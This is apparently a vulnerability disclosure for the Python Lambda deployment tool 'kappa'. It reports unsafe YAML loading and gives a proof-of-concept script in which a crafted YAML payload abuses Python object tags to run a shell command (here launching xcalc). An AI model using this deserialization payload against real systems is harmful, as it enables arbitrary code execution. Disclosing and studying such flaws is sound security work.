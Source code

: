 # Description

`kappa` is a command line tool that (hopefully) makes it easier to deploy, update, and test functions for AWS Lambda., which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install kappa
```

### Run exploit.py
```
import os
#os.sysem('pip3 install kappa')
from kappa import context
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
context.Context(payload)
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
